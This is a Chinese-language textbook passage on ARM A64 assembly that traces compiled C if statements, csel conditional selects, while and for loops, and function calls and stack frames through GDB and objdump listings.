通常，设计良好的 C 程序不会使用 `goto` 语句，程序员应避免使用它们，以避免编写难以阅读、调试和维护的代码。然而，C 语言中的 `goto` 语句是重要的理解内容，因为 GCC 通常会在将 C 代码翻译成汇编之前，将包含条件语句和循环的 C 代码转化为 `goto` 形式。

以下小节将更详细地讨论 `if` 语句和循环的汇编表示。

#### 9.4.2 汇编中的 if 语句

让我们看一下汇编中的 `getSmallest` 函数。为了方便，函数在这里被重复展示。

```
int getSmallest(int x, int y) {

    int smallest;

    if ( x > y ) {

        smallest = y;

    }

    else {

        smallest = x;

    }

    return smallest;

}
```

从 GDB 中提取的相应汇编代码如下所示：

```
(gdb) disas getSmallest

Dump of assembler code for function getSmallest:

0x07f4 <+0>:    sub  sp, sp, #0x20

0x07f8 <+4>:    str  w0, [sp, #12]

0x07fc <+8>:    str  w1, [sp, #8]

0x0800 <+12>:   ldr  w1, [sp, #12]

0x0804 <+16>:   ldr  w0, [sp, #8]

0x0808 <+20>:   cmp  w1, w0

0x080c <+24>:   b.le 0x81c <getSmallest+40>

0x0810 <+28>:   ldr  w0, [sp, #8]

0x0814 <+32>:   str  w0, [sp, #28]

0x0818 <+36>:   b    0x824 <getSmallest+48>

0x081c <+40>:   ldr  w0, [sp, #12]

0x0820 <+44>:   str  w0, [sp, #28]

0x0824 <+48>:   ldr  w0, [sp, #28]

0x0828 <+52>:   add  sp, sp, #0x20

0x082c <+56>:   ret
```

这是我们之前看到的不同视角的汇编代码。在这里，我们可以看到每条指令相关的*地址*，但看不到*字节*。请注意，为了简化起见，这段汇编代码做了轻微的编辑。按照惯例，GCC 将函数的第一个和第二个参数分别放在寄存器 `x0` 和 `x1` 中。由于 `getSmallest` 的参数是 `int` 类型，编译器将参数分别放入对应的组件寄存器 `w0` 和 `w1` 中。为了清晰起见，我们将这两个参数分别称为 `x` 和 `y`。

让我们逐步分析前面汇编代码片段的前几行。请注意，我们在这个例子中不会显式地绘制栈。我们将这部分留给读者作为练习，并鼓励你通过自己绘制来练习栈追踪技巧。

+   `sub` 指令将调用栈增长了 32 字节（0x20）。

+   `<getSmallest+4>` 和 `<getSmallest+8>` 处的 `str` 指令分别将 `x` 和 `y` 存储到栈位置 `sp` + 12 和 `sp` + 8。

+   `<getSmallest+12>` 和 `<getSmallest+16>` 处的 `ldr` 指令将 `x` 和 `y` 分别加载到寄存器 `w1` 和 `w0` 中。请注意，`w0` 和 `w1` 的原始内容已被交换！

+   `cmp` 指令将 `w1` 与 `w0` （即 `x` 与 `y`）进行比较，并设置相应的条件码标志寄存器。

+   `<getSmallest+24>` 处的 `b.le` 指令表示如果 `x` 小于或等于 `y`，下一条应执行的指令应位于 `<getSmallest+40>`（即 `pc` = 0x81c）。否则，`pc` 被设置为顺序中的下一条指令，即 0x810。

接下来执行的指令取决于程序是否遵循分支（即是否执行跳转）(` <getSmallest+24>`)。首先假设分支*未*被跟随。在这种情况下，`pc` 被设置为 0x810（即 `<getSmallest+28>`），接下来的指令序列执行：

+   `<getSmallest+28>` 处的 `ldr` 指令将 `y` 加载到寄存器 `w0` 中。

+   `<getSmallest+32>` 处的 `str` 指令将 `y` 存储在栈位置 `sp` + 28。

+   `<getSmallest+36>` 处的 `b` 指令将寄存器 `pc` 设置为地址 0x824。

+   `<getSmallest+48>` 处的 `ldr` 指令将 `y` 加载到寄存器 `w0` 中。

+   最后的两条指令将调用栈恢复到其原始大小，并从函数调用中返回。在这种情况下，`y`位于返回寄存器`w0`中，`getSmallest`返回`y`。

现在，假设在`<getSmallest+24>`处确实进行了分支。换句话说，`b.le`指令将寄存器`pc`设置为 0x81c（即`<getSmallest+40>`）。然后，接下来的执行指令是：

+   `<getSmallest+40>`处的`ldr`指令将`x`加载到寄存器`w0`中。

+   `<getSmallest+44>`处的`str`指令将`x`存储在栈位置`sp` + 28。

+   `<getSmallest+48>`处的`ldr`指令将`x`加载到寄存器`w0`中。

+   最后的两条指令将调用栈恢复到其原始大小，并从函数调用中返回。在这种情况下，`x`位于返回寄存器`w0`中，`getSmallest`返回`x`。

我们可以如下注释前面的汇编代码：

```
0x07f4 <+0>:   sub  sp, sp, #0x20          // grow stack by 32 bytes

0x07f8 <+4>:   str  w0, [sp, #12]          // store x at sp+12

0x07fc <+8>:   str  w1, [sp, #8]           // store y at sp+8

0x0800 <+12>:  ldr  w1, [sp, #12]          // w1 = x

0x0804 <+16>:  ldr  w0, [sp, #8]           // w0 = y

0x0808 <+20>:  cmp  w1, w0                 // compare x and y

0x080c <+24>:  b.le 0x81c <getSmallest+40> // if(x <= y) goto <getSmallest+40>

0x0810 <+28>:  ldr  w0, [sp, #8]           // w0 = y

0x0814 <+32>:  str  w0, [sp, #28]          // store y at sp+28 (smallest)

 0x0818 <+36>:  b    0x824 <getSmallest+48> // goto <getSmallest+48>

0x081c <+40>:  ldr  w0, [sp, #12]          // w0 = x

0x0820 <+44>:  str  w0, [sp, #28]          // store x at sp+28 (smallest)

0x0824 <+48>:  ldr  w0, [sp, #28]          // w0 = smallest

0x0828 <+52>:  add  sp, sp, #0x20          // clean up stack

0x082c <+56>:  ret                         // return smallest
```

将此转换回 C 代码，得到：

goto 形式

```
int getSmallest(int x, int y) {

    int smallest=y;

    if (x <= y) {

        goto assign_x;

    }

    smallest = y;

    goto done;

assign_x:

    smallest = x;

done:

    return smallest;

}
```

转换后的 C 代码

```
int getSmallest(int x, int y) {

    int smallest=y;

    if (x <= y) {

        smallest = x;

    }

    else {

        smallest = y;

    }

    return smallest;

}
```

在这些代码列表中，变量`smallest`对应于寄存器`w0`。如果`x`小于或等于`y`，代码将执行语句`smallest = x`，该语句与我们`goto`形式中的`assign_x`标签相关联。否则，执行语句`smallest = y`。`goto`标签`done`用于表示应返回`smallest`的值。

请注意，前面的 C 代码翻译与原始`getSmallest`函数略有不同。这些差异无关紧要；仔细检查这两个函数会发现，它们在逻辑上是等效的。然而，编译器首先将每个`if`语句转换为等效的`goto`形式，这导致了略有不同但等效的版本。以下代码列表展示了标准的`if`语句格式及其等效的`goto`形式。

C 语言的 if 语句

```
if (<condition>) {

    <then_statement>;

}

else {

    <else_statement>;

}
```

编译器的等效`goto`形式

```
    if (!<condition>) {

        goto else;

    }

    <then_statement>;

    goto done;

else:

    <else_statement>;

done:
```

编译器将代码转换为汇编时，会在条件为真时指定一个分支。与`if`语句的结构对比，当条件*不*为真时，会发生“跳转”（到`else`）。`goto`形式捕捉了这一逻辑差异。

考虑到原始`goto`翻译的`getSmallest`函数，我们可以看到：

+   `x <= y`对应于`!*<condition>*`。

+   `smallest = x`是<else_statement>。

+   `smallest = y`这一行是<then_statement>。

+   函数中的最后一行是`return smallest`。

用前述注释重写原始版本的函数，得到如下：

```
int getSmallest(int x, int y) {

    int smallest;

    if (x > y) {     //!(x <= y)

        smallest = y; //then_statement

    }

    else {

        smallest = x; //else_statement

    }

    return smallest;

}
```

这个版本与原始的`getSmallest`函数相同。请记住，虽然 C 代码级别写法不同，但最终可能翻译为相同的一组汇编指令。

##### 条件选择指令

我们要介绍的最后一个条件指令是*条件选择*（`csel`）指令。`cmp`、`tst`和`b`指令实现了程序中的*条件控制转移*。换句话说，程序的执行会在多个方向上进行分支。这对优化代码来说是非常棘手的，因为分支指令通常非常昂贵，执行时可能会干扰指令流水线（有关详细信息，请参见第 279 页的“流水线危险：控制危险”）。相比之下，`csel`指令实现了*条件数据转移*。换句话说，CPU 会执行*两个* <then_statement>和<else_statement>，并根据条件的结果将数据放入适当的寄存器中。

C 语言中的*三元表达式*常常导致编译器生成`csel`指令来替代分支指令。对于标准的 if–then–else 语句，三元表达式的形式是：

```
result = (<condition>) ? <then_expression> : <else_expression>;
```

让我们使用这种格式将`getSmallest`函数重写为三元表达式。请记住，这个新版本的函数行为与原始的`getSmallest`函数完全相同：

```
int getSmallest_csel(int x, int y) {

    return x > y ? y : x;

}
```

尽管这看起来可能不是一个大的改变，但让我们来看一下生成的汇编代码。回想一下，第一和第二个参数（`x`和`y`）分别存储在寄存器`w0`和`w1`中：

```
(gdb) disas getSmallest_csel

Dump of assembler code for function getSmallest_csel:

0x0860 <+0>:  sub  sp, sp, #0x10      // grow stack by 16 bytes

0x0864 <+4>:  str  w0, [sp, #12]      // store x at sp+12

0x0868 <+8>:  str  w1, [sp, #8]       // store y at sp+8

0x086c <+12>: ldr  w0, [sp, #8]       // w0 = y

0x0870 <+16>: ldr  w2, [sp, #12]      // w2 = x

0x0874 <+20>: ldr  w1, [sp, #12]      // w1 = x

0x0878 <+24>: cmp  w2, w0             // compare x and y

0x087c <+28>: csel w0, w1, w0, le     // if (x <= y) w0 = x, else w0=y

0x0880 <+32>: add  sp, sp, #0x10      // restore sp

0x0884 <+36>: ret                     // return (w0)
```

这段汇编代码没有跳转。在对`x`和`y`进行比较后，只有在`x`小于或等于`y`时，`x`才会移动到返回寄存器`w0`中。

`csel`指令的结构是

```
csel D, R1, R2, C // if (C) D = R1 else D = R2
```

其中`D`表示目标寄存器，`R1`和`R2`是包含待比较值的两个寄存器，`C`是需要评估的条件。

至于分支指令，`csel`指令中的`C`部分表示条件选择发生的条件。它们与第 9-13 表中所示的条件相同，详见第 479 页。

在原始的`getSmallest`函数中，编译器的内部优化器（见第十二章）会在开启一级优化（即`-O1`）时，将`b`指令替换为`csel`指令：

```
// compiled with: gcc -O1 -o getSmallest getSmallest.c

Dump of assembler code for function getSmallest:

0x0734 <+0>: cmp  w0, w1            // compare x and y

0x0738 <+4>: csel w0, w0, w1, le    // if (x<=y)  w0=x, else w0=y

0x073c <+8>: ret                    // return (w0)

```

一般来说，编译器对将分支指令优化为`csel`指令非常谨慎，特别是在涉及副作用和指针值的情况下。这里，我们展示了两种等效的`incrementX`函数写法：

C 代码

```
int incrementX(int * x) {

    if (x != NULL) { //if x is not NULL

        return (*x)++; //increment x

    }

    else { //if x is NULL

        return 1; //return 1

    }

}
```

C 三元表达式形式

```
int incrementX2(int * x){

    return x ? (*x)++ : 1;

}
```

每个函数都接受一个指向整数的指针作为输入，并检查其是否为`NULL`。如果`x`不为`NULL`，函数将递增并返回`x`解引用后的值。否则，函数将返回值 1。

`incrementX2`看起来像是使用了`csel`指令，因为它使用了三元表达式。然而，两个函数生成的汇编代码完全相同：

```
// parameter x is in register x0

Dump of assembler code for function incrementX2:

0x0774 <+0>:  mov  w1, #0x1                   // w1 = 0x1

0x0778 <+4>:  cbz  x0, 0x788 <incrementX2+20> // if(x==0) goto<incrementX2+20>

0x077c <+8>:  ldr  w1, [x0]                   // w1 = *x

0x0780 <+12>: add  w2, w1, #0x1               // w2 = w1 + 1

0x0784 <+16>: str  w2, [x0]                   // *x = w2

0x0788 <+20>: mov  w0, w1                     // w0 = *x

0x078c <+24>: ret                             // return (w0)
```

回想一下，`csel`指令*执行条件的两个分支*。换句话说，无论如何，`x`都会被解引用。考虑`x`为空指针的情况。回想一下，解引用空指针会导致空指针异常，从而导致段错误。为了防止发生这种情况，编译器采取了安全路径，并使用了分支。

#### 9.4.3 汇编中的循环

类似于`if`语句，汇编中的循环也使用分支指令实现。然而，循环使得根据评估条件的结果，指令可以*被重新访问*。

以下示例中的`sumUp`函数将从 1 到用户定义的整数*n*之间的所有正整数求和。这段代码故意写得不够优化，以说明 C 语言中的`while`循环。

```
int sumUp(int n) {

    //initialize total and i

    int total = 0;

    int i = 1;

    while (i <= n) {  //while i is less than or equal to n

        total += i;   //add i to total

        i++;          //increment i by 1

    }

    return total;

}
```

编译这段代码并使用 GDB 反汇编后，得到以下汇编代码：

```
Dump of assembler code for function sumUp:

0x0724 <+0>:   sub   sp, sp, #0x20

0x0728 <+4>:   str   w0, [sp, #12]

0x072c <+8>:   str   wzr, [sp, #24]

0x0730 <+12>:  mov   w0, #0x1

0x0734 <+16>:  str   w0, [sp, #28]

0x0738 <+20>:  b     0x758 <sumUp+52>

0x073c <+24>:  ldr   w1, [sp, #24]

0x0740 <+28>:  ldr   w0, [sp, #28]

0x0744 <+32>:  add   w0, w1, w0

0x0748 <+36>:  str   w0, [sp, #24]

0x074c <+40>:  ldr   w0, [sp, #28]

0x0750 <+44>:  add   w0, w0, #0x1

0x0754 <+48>:  str   w0, [sp, #28]

0x0758 <+52>:  ldr   w1, [sp, #28]

0x075c <+56>:  ldr   w0, [sp, #12]

0x0760 <+60>:  cmp   w1, w0

0x0764 <+64>:  b.le  0x73c <sumUp+24>

0x0768 <+68>:  ldr   w0, [sp, #24]

0x076c <+72>:  add   sp, sp, #0x20

0x0770 <+76>:  ret
```

同样，我们在这个例子中不会显式地绘制栈。然而，我们鼓励读者自行绘制栈。

##### 前五条指令

该函数的前五条指令为函数执行设置栈，并存储一些临时值：

```
0x0724 <+0>:  sub  sp, sp, #0x20   //grow stack by 32 bytes (new stack frame)

0x0728 <+4>:  str  w0, [sp, #12]   //store n at sp+12 (n)

0x072c <+8>:  str  wzr, [sp, #24]  //store 0 at sp+24 (total)

0x0730 <+12>: mov  w0, #0x1        //w0 = 1

0x0734 <+16>: str  w0, [sp, #28]   //store 1 at sp+28 (i)
```

具体来说，它们：

+   增加 32 字节的调用栈，标记新的栈帧。

+   将第一个参数（`n`）存储在栈位置`sp` + 12。

+   将值 0 存储在栈位置`sp` + 24，表示`total`。

+   将值 1 复制到寄存器`w0`中。

+   将值 1 存储在栈位置`sp` + 28，表示`i`。

回忆一下，栈位置存储函数中的*临时变量*。为了简化，我们将`sp` + 24 标记的位置称为`total`，`sp` + 28 标记的位置称为`i`。`sumUp`的输入参数（`n`）位于栈地址`sp` + 12。尽管临时变量已放置在栈上，但请记住，在执行第一条指令（`sub sp, sp, #0x20`）后，栈指针并没有改变。

##### 循环的核心

`sumUp`函数中的接下来的 12 条指令构成了循环的核心：

```
0x0738 <+20>: b     0x758 <sumUp+52>  // goto <sumUp+52>

0x073c <+24>: ldr   w1, [sp, #24]     // w1 = total

0x0740 <+28>: ldr   w0, [sp, #28]     // w0 = i

0x0744 <+32>: add   w0, w1, w0        // w0 =  i + total

0x0748 <+36>: str   w0, [sp, #24]     // store (total + i) at sp+24 (total+=i)

0x074c <+40>: ldr   w0, [sp, #28]     // w0 = i

0x0750 <+44>: add   w0, w0, #0x1      // w0 = i + 1

0x0754 <+48>: str   w0, [sp, #28]     // store (i+1) at sp+28 (i++)

0x0758 <+52>: ldr   w1, [sp, #28]     // w1 = i

0x075c <+56>: ldr   w0, [sp, #12]     // w0 = n

0x0760 <+60>: cmp   w1, w0            // compare i and n

0x0764 <+64>: b.le  0x73c <sumUp+24>  // if (i <= n) goto <sumUp+24> 
```

+   第一条指令是直接跳转到`<sumUp+52>`，将程序计数器寄存器（`pc`）设置为地址 0x758。

+   接下来执行的两条指令（在`<sumUp+52>`和`<sumUp+56>`处）分别将`i`和`n`加载到寄存器`w1`和`w0`中。

+   `<sumUp+60>`处的`cmp`指令比较`i`和`n`，设置相应的条件标志。程序计数器`pc`将前进到下一条指令，或者地址 0x764。

+   `<sumUp+64>`处的`b.le`指令在`i`小于或等于`n`时，将`pc`寄存器替换为地址 0x73c。

如果分支被执行（也就是说，`i <= n`），程序执行跳转到`<sumUp+24>`，并执行以下指令：

+   `<sumUp+24>`和`<sumUp+28>`处的`ldr`指令分别将`total`和`i`加载到寄存器`w1`和`w0`中。

+   `<sumUp+32>`处的`add`指令将`total`和`i`相加（`i + total`），并将结果存储在`w0`中。

+   `<sumUp+36>`处的`str`指令随后将寄存器`w0`中的值更新到`total`中（`total = total + i`）。

+   `<sumUp+40>`处的`ldr`指令将`i`加载到寄存器`w0`中。

+   `<sumUp+44>`处的`add`指令将 1 加到`i`上，并将结果存储在寄存器`w0`中。

+   `<sumUp+48>`处的`str`指令将寄存器`w0`中的值更新到`i`中（`i = i + 1`）。

+   `<sumUp+52>`和`<sumUp+56>`处的`ldr`指令分别将`i`和`n`加载到寄存器`w1`和`w0`中。

+   `<sumUp+60>`处的`cmp`指令将`i`与`n`进行比较，并设置适当的条件码标志。

+   然后执行`b.le`指令。如果`i`小于或等于`n`，程序执行跳转回`<sumUp+24>`，`pc`被设置为 0x73c，`<sumUp+24>`到`<sumUp+64>`之间的指令会重复执行。否则，寄存器`pc`被设置为下一个指令的地址，即 0x768（`<sumUp+68>`）。

如果分支*没有*被采取（即`i`大于`n`），则执行以下指令：

```
0x0768 <+68>:  ldr   w0, [sp, #24]   // w0 = total

0x076c <+72>:  add   sp, sp, #0x20   // restore stack

0x0770 <+76>:  ret                   // return w0 (total)
```

这些指令将`total`复制到返回寄存器`w0`中，通过缩小`sp`恢复调用栈，并退出函数。因此，函数在退出时返回`total`。

以下代码列出了`sumUp`函数的汇编和 C 语言`goto`形式：

汇编

```
<sumUp>:

  <+0>:   sub   sp, sp, #0x20

  <+4>:   str   w0, [sp, #12]

  <+8>:   str   wzr, [sp, #24]

  <+12>:  mov   w0, #0x1

  <+16>:  str   w0, [sp, #28]

  <+20>:  b     0x758 <sumUp+52>

  <+24>:  ldr   w1, [sp, #24]

  <+28>:  ldr   w0, [sp, #28]

  <+32>:  add   w0, w1, w0

  <+36>:  str   w0, [sp, #24]

  <+40>:  ldr   w0, [sp, #28]

  <+44>:  add   w0, w0, #0x1

  <+48>:  str   w0, [sp, #28]

  <+52>:  ldr   w1, [sp, #28]

  <+56>:  ldr   w0, [sp, #12]

  <+60>:  cmp   w1, w0

  <+64>:  b.le  0x73c <sumUp+24>

  <+68>:  ldr   w0, [sp, #24]

  <+72>:  add   sp, sp, #0x20

  <+76>:  ret
```

翻译后的 goto 形式

```
int sumUp(int n) {

    int total = 0;

    int i = 1;

    goto start;

body:

    total += i;

    i += 1;

start:

    if (i <= n) {

        goto body;

    }

    return total;

}
```

前面的代码也等价于以下没有`goto`语句的 C 代码：

```
int sumUp(int n) {

    int total = 0;

    int i = 1;

 while (i <= n) {

        total += i;

        i += 1;

    }

    return total;

}
```

##### 汇编中的 for 循环

`sumUp`函数中的主要循环也可以写成`for`循环：

```
int sumUp2(int n) {

    int total = 0;             //initialize total to 0

    int i;

    for (i = 1; i <= n; i++) { //initialize i to 1, increment by 1 while i<=n

        total += i;            //updates total by i

    }

    return total;

}
```

这会生成与我们的`while`循环示例相同的汇编代码。我们在此重复汇编代码，并用英文翻译标注每一行：

```
Dump of assembler code for function sumUp2:

0x0774 <+0>:  sub   sp, sp, #0x20     // grow stack by 32 bytes (new frame)

0x0778 <+4>:  str   w0, [sp, #12]     // store n at sp+12 (n)

0x077c <+8>:  str   wzr, [sp, #24]    // store 0 at sp+24 (total)

0x0780 <+12>: mov   w0, #0x1          // w0 = 1

0x0784 <+16>: str   w0, [sp, #28]     // store 1 at sp+28 (i)

0x0788 <+20>: b     0x7a8 <sumUp2+52> // goto <sumUp2+52>

0x078c <+24>: ldr   w1, [sp, #24]     // w1 = total

0x0790 <+28>: ldr   w0, [sp, #28]     // w0 = i

0x0794 <+32>: add   w0, w1, w0        // w0 = total + i

0x0798 <+36>: str   w0, [sp, #24]     // store (total+i) in total

0x079c <+40>: ldr   w0, [sp, #28]     // w0 = i

0x07a0 <+44>: add   w0, w0, #0x1      // w0 = i + 1

0x07a4 <+48>: str   w0, [sp, #28]     // store (i+1) in i (i.e., i+=1)

0x07a8 <+52>: ldr   w1, [sp, #28]     // w1 = i

0x07ac <+56>: ldr   w0, [sp, #12]     // w0 = n

0x07b0 <+60>: cmp   w1, w0            // compare i and n

0x07b4 <+64>: b.le  0x78c <sumUp2+24> // if (i <= n) goto <sumUp2+24>

0x07b8 <+68>: ldr   w0, [sp, #24]     // w0 = total

0x07bc <+72>: add   sp, sp, #0x20     // restore stack

0x07c0 <+76>: ret                     // return w0 (total)
```

为了理解为什么`for`循环版本的代码会生成与`while`循环版本相同的汇编代码，请记住`for`循环具有以下表示形式。

```
for ( <initialization>; <boolean expression>; <step> ){

    <body>

}
```

这等价于以下的`while`循环表示：

```
<initialization>

while (<boolean expression>) {

    <body>

    <step>

}
```

由于每个`for`循环都可以用`while`循环表示（见第 35 页中的“for 循环”），以下两个 C 程序是前面汇编代码的等价表示：

for 循环

```
int sumUp2(int n) {

    int total = 0;

    int i = 1;

    for (i; i <= n; i++) {

        total += i;

    }

    return total;

}
```

while 循环

```
int sumUp(int n){

    int total = 0;

    int i = 1;

    while (i <= n) {

        total += i;

        i += 1;

    }

    return total;

}
```

### 9.5 汇编中的函数

在上一节中，我们跟踪了汇编中的简单函数。在本节中，我们讨论了在更大程序的上下文中多个函数之间的交互。我们还介绍了一些与函数管理相关的新指令。

让我们从复习调用栈的管理方式开始。回想一下，`sp` 是 *栈指针*，总是指向栈顶。寄存器 `x29` 代表基指针（也称为 *帧指针* 或 `FP`），指向当前栈帧的底部。*栈帧*（也称为 *激活帧* 或 *激活记录*）指的是为单个函数调用分配的栈内存区域。当前执行的函数总是位于栈的顶部，且其栈帧被称为 *活动帧*。活动帧的边界由栈指针（栈顶，较低地址）和帧指针（帧底部，较高地址）确定。激活记录通常包含函数的局部变量。最后，*返回地址* 表示调用函数（例如，`main`）在被调用函数退出后将恢复执行的程序地址。在 A64 系统中，返回地址存储在寄存器 `x30`（也称为 `LR`）中。

图 9-4 显示了 `main` 函数及其调用的函数 `fname` 的栈帧。我们将 `main` 函数称为 *调用者* 函数，将 `fname` 函数称为 *被调用者* 函数。



*图 9-4：栈帧管理*

在图 9-4 中，当前活动帧属于被调用函数 (`fname`)。调用栈中从栈指针到帧指针的区域用于存储局部变量。随着局部变量被压入和弹出栈，栈指针会移动。帧指针在优化后的代码中通常不常用，且通常是可选操作。因此，像 GCC 这样的编译器通常会相对于栈指针引用栈上的值。在图 9-4 中，活动帧的下边界由 `fname` 的基指针或 `x29` 确定，它包含栈地址 0xef30。地址 0xef30 中存储的值是“保存的”帧指针值 (0xef50)，它本身指示 `main` 函数的激活帧底部。在帧指针下方是一个保存的 *返回地址*（存储在 `x30` 中），它表示程序在 `main` 退出后将继续执行的地址。

**警告：返回地址指向代码内存，而非栈内存**

回想一下，程序的调用栈区域（栈内存）与其代码区域（代码内存）是不同的。`sp` 和 `x29` 指向栈内存中的地址，而 `pc` 指向代码内存中的地址。换句话说，返回地址是代码内存中的地址，而非栈内存中的地址（见图 9-5）。



*图 9-5：程序地址空间的各个部分*

表 9-14 包含编译器用于基本函数管理的几个附加指令。

**表 9-14：** 常见的函数管理指令

| **指令** | **翻译** |
| --- | --- |
| `bl addr <fname>` | 设置 `x30` = `pc` + 4，并将 `pc` 设置为 addr |
| `blr R <fname>` | 设置 `x30` = `pc` + 4，并将 `pc` 设置为 R |
| `ret` | 返回 `x0` 中的值，并将 `pc` 设置为 `x30` |

`bl` 和 `ret` 指令在一个函数调用另一个函数的过程中起着重要作用。这两条指令都会修改指令指针（寄存器 `pc`）。当调用函数执行 `bl` 指令时，`pc` + 4 的值会保存在寄存器 `x30` 中，表示返回地址，或者说是调用函数在被调用函数执行完毕后恢复执行的程序地址。`bl` 指令还将 `pc` 的值替换为被调用函数的地址。

`ret` 指令将 `pc` 的值恢复为保存在 `x30` 中的值，确保程序从调用函数指定的地址恢复执行。被调用函数返回的任何值都存储在寄存器 `x0` 或其组件寄存器 `w0` 中。`ret` 指令通常是任何函数中执行的最后一条指令。

#### 9.5.1 函数参数

函数参数通常在函数调用之前被预先加载到寄存器中。传递给函数的前八个参数存储在寄存器 `x0` 到 `x7` 中。如果一个函数需要更多的参数，剩余的参数会根据其大小依次加载到调用栈中（32 位数据使用 4 字节偏移，64 位数据使用 8 字节偏移）。

#### 9.5.2 跟踪一个示例

使用我们对函数管理的了解，让我们跟踪通过本章开头介绍的代码示例。

```
#include <stdio.h>

int assign() {

    int y = 40;

    return y;

}

int adder() {

    int a;

    return a + 2;

}

int main() {

    int x;

    assign();

    x = adder();

    printf("x is: %d\n", x);

    return 0;

}
```

我们使用命令 `gcc -o prog prog.c` 编译这段代码，并使用 `objdump -d` 查看底层汇编。后者命令输出了一个相当大的文件，包含了很多我们不需要的信息。可以使用 `less` 和搜索功能提取 `adder`、`assign` 和 `main` 函数：

```
0000000000000724 <assign>:

 724:   d10043ff        sub     sp, sp, #0x10

 728:   52800500        mov     w0, #0x28                       // #40

 72c:   b9000fe0        str     w0, [sp, #12]

 730:   b9400fe0        ldr     w0, [sp, #12]

 734:   910043ff        add     sp, sp, #0x10

 738:   d65f03c0        ret

000000000000073c <adder>:

 73c:   d10043ff        sub     sp, sp, #0x10

 740:   b9400fe0        ldr     w0, [sp, #12]

 744:   11000800        add     w0, w0, #0x2

 748:   910043ff        add     sp, sp, #0x10

 74c:   d65f03c0        ret

0000000000000750 <main>:

 750:   a9be7bfd        stp     x29, x30, [sp, #-32]!

 754:   910003fd        mov     x29, sp

 758:   97fffff3        bl      724 <assign>

 75c:   97fffff8        bl      73c <adder>

 760:   b9001fa0        str     w0, [x29, #28]

 764:   90000000        adrp    x0, 0 <_init-0x598>

 768:   91208000        add     x0, x0, #0x820

 76c:   b9401fa1        ldr     w1, [x29, #28]

 770:   97ffffa8        bl      610 <printf@plt>

 774:   52800000        mov     w0, #0x0                        // #0

 778:   a8c27bfd        ldp     x29, x30, [sp], #32

 77c:   d65f03c0        ret
```

每个函数以一个符号标签开始，该标签对应程序中声明的函数名。例如，`<main>:` 是 `main` 函数的符号标签。函数标签的地址也是该函数中第一条指令的地址。为了节省接下来的图示空间，我们将代码地址截断为低 12 位，将堆栈地址截断为低 16 位。因此，堆栈地址 `0xffffffffef50` 显示为 `0xef50`。

#### 9.5.3 跟踪 `main`

图 9-6 显示了在执行 `main` 函数之前，执行栈的状态。


*图 9-6：执行 `main` 函数前，CPU 寄存器和调用栈的初始状态*

回想一下，堆栈是向较低地址增长的。在这个示例中，帧指针和堆栈指针（`x29` 和 `sp`）都包含地址 `0xef50`。最初，`pc` 是 `main` 函数中第一条指令的地址，或者说是 `0x750`。寄存器 `x30` 和 `w0` 在这个示例中也被高亮显示，它们都包含初始的垃圾值。



第一条指令（`stp`）是一个复合指令，包含两个部分。首先，第二个操作数（`[sp, #-32]!`）将栈指针减少 32 字节，从而为当前栈帧分配空间。在操作数求值后，栈指针更新为 0xef30。接下来，`stp` 指令将 `x29` 和 `x30` 的当前值分别存储在 `sp` 和 `sp` + 8 的位置。指令指针 `pc` 移动到下一条指令。



下一条指令（`mov x29, sp`）将寄存器 `x29` 的值更新为与 `sp` 相同。因此，帧指针（`x29`）现在指向 `main` 函数栈帧的起始位置。指令指针 `pc` 移动到下一条指令。



第一条 `bl` 指令将 `pc` + 4（即 0x75c）存储在寄存器 `x30` 中，这个地址是程序在 `assign` 函数返回后将在 `main` 中恢复执行的位置。接着，寄存器 `pc` 被更新为地址 0x724，表示 `assign` 函数中第一条指令的地址。



执行的下一条指令是 `assign` 中的第一条指令。`sub` 指令将栈指针减少 16 字节。请注意，`x29` 和 `sp` 现在表示 `assign` 函数的活动栈帧边界。程序计数器移动到下一条指令。



`mov` 指令将常数值 0x28 存储到寄存器 `w0` 中。寄存器 `pc` 移动到下一条指令。



`str` 指令将 0x28 存储在栈指针偏移 12 字节的位置，或地址 0xef2c。指令指针移动到下一条指令。



`ldr` 指令将 0x28 从栈地址 0xef2c 加载到寄存器 `w0` 中。指令指针移动到下一条指令。



`add` 指令回收当前栈帧，并将 `sp` 恢复为之前的值，即 0xef30。



`ret` 指令将 `pc` 中的值替换为 `x30` 中的值，或 0x75c。结果，程序执行将立即返回到 `main` 函数中调用 `assign` 后的第一条指令。



执行的下一条指令是对 `adder` 函数的调用（或 `bl 73c` `<adder>`）。因此，寄存器 `x30` 被更新为 `pc` + 4，即 0x760。程序计数器被替换为地址 0x73c，表示程序继续执行到 `adder` 函数。



`adder`函数中的第一条指令将栈指针减少 16 字节，为`adder`函数分配新的栈帧。请注意，`adder`函数的活动栈帧边界由寄存器`sp`和`x29`指定。指令指针继续执行下一个指令。



接下来的操作至关重要。`ldr`指令从栈中（在`sp` + 12 处）加载一个*旧*值到寄存器`w0`中。这是由于程序员忘记初始化`adder`函数中的`a`变量。指令指针继续执行下一个指令。



然后，`add`指令将 0x2 加到寄存器`w0`中的值，并将结果（0x2A）存储回寄存器`w0`。指令指针继续执行下一个指令。



接下来的`add`指令将栈指针增加 16 字节，从而销毁`adder`的活动栈帧，并将`sp`恢复到之前的值。指令指针继续执行下一个指令。



最后，`ret`指令用寄存器`x30`中的地址覆盖`pc`，指示程序执行应在代码段地址 0x760 的`main`函数中继续。



回到`main`函数时，程序地址 0x760 处的`str`指令将寄存器`w0`（0x2A）中的内容存储到离帧指针（`x29`）28 字节的调用栈位置。因此，0x2A 存储在栈地址 0xef4c。



接下来的两条指令一起将页面的地址加载到寄存器`x0`中。由于地址长度为 8 字节，因此使用 64 位寄存器`x0`，而不是它的 32 位组件`w0`。`adrp`指令将地址（0x0）加载到寄存器`x0`中，而位于代码段地址 0x768 的`add`指令将 0x820 的值加到其中。这两条指令执行完毕后，寄存器`x0`包含了内存地址 0x820。请注意，存储在地址 0x820 的值是字符串`"x is` `%d\n"`。



接下来，位于程序地址 0x76c 的`ldr`指令将 0x2A（该值位于距帧指针 28 字节的偏移处）加载到寄存器`w1`中。



下一条指令调用`printf`函数。为了简洁起见，我们将不会跟踪`printf`函数，它是`stdio.h`的一部分。然而，我们从手册页面（`man -s3 printf`）中知道，`printf`具有以下格式：

```
int printf(const char * format, ...)
```

换句话说，第一个参数是指向指定格式的字符串的指针，从第二个参数开始，后续的参数指定在该格式中使用的值。地址 0x764–0x770 指定的指令对应于`main`函数中的以下一行：

```
printf("x is %d\n", x);
```

当调用`printf`函数时：

+   返回地址（`pc` + 4 或 0x774）存储在寄存器`x30`中。

+   寄存器`pc`切换到地址 0x610，这是`printf`函数的起始地址。

+   寄存器`sp`被更新，以反映`printf`函数的新栈帧。

